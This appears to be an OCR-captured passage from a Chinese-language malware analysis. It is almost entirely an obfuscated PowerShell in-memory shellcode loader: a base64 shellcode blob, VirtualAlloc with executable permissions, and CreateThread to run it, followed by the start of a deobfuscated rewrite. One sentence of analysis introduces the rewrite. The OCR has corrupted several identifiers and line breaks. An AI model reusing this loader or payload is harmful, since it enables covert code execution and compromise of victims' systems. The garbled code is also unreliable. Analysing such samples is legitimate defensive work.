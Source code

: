 ```
$vUWa37)))), $gWJz4CZjPH))
}

function re5ePC {
        Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $s1vaQqXLi,
                [Parameter(Position = 1)] [Type] $glBQxPMwgT = [Void]
        )

        $ze24 = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedD
legate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineTyp
('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $ze24.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $
1vaQqXLi).SetImplementationFlags('Runtime, Managed')
        $ze24.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $glBQxPMwgT, $s1vaQqXLi).SetImplementationF
ags('Runtime, Managed')

        return $ze24.CreateType()
}

[Byte[]]$psHJd = [System.Convert]::FromBase64String("/OiCAAAAYInlMcBki1Awi1IMi1IUi3IoD7dKJjH/rDxhfAIsIMHPDQHH4vJSV4tSEIKPItMEXjjSAHRUYtZIAHTi0kY4zpJizSLAdYx/6zBzw0BxzjgdfYDffg7fSR15FiLWCQB02aLDEuLWBwB04sEiwHQiUQkJFtbYVlaUf/gX19aixLrjV1oMzAAGh3czJfVGhMdyYH/9W4kAEAACnEVFBoKYBrAP/VUFBQUEBQQFBo6g/f4P/Vl2oFaHMctltoAgBlBonmahBWV2iZpXRh/9WFwHQK/04IdezoPwAAAGoAagWV2gC2chf/9WD+AB+6Ys2akBoABAAAFZqAGhYpFPl/9WTU2oAVlNXaALZyF//1YP4AH7DAcMpxnXpw7vwtaJWagBT/9U=")

$sXMGTPYMkl = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((aVNbl kernel32.dll VirtualAlloc) (re5ePC @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $psHJd.Length,0x3000, 0x40)[System.Runtime.InteropServices.Marshal]::Copy($psHJd, 0, $sXMGTPYMkl, $psHJd.length)

$zcLaWjBVTo8P = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((aVNbl kernel32.dll CreateThrea), (re5ePC @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$sXMGTPYMl,[IntPtr]::Zero,0,[IntPtr]::Zero)[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((aVNbl kernel32.dll WaitForSingleObject), (re5eC @([IntPtr], [Int32]))).Invoke($zcLaWjBVTo8P,0xffffffff) | Out-Null

```
可以看出这明显进行了代码混淆，我们将混淆之后的代码尽可能的还原之后可以得到这样的代码：
```

function fun1 {
        Param ($parm1, $parm2)
        $parm3 = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

        return $parm3.GetMethod('GetProcAddress').Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($parm3.GetMethod('GetModuleHandle')).Invoke($null, @($parm1)))), $parm2))
}

function fun2 {
        Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $parm4,
                [Parameter(Position = 1)] [Type] $parm5 = [Void]
        )

```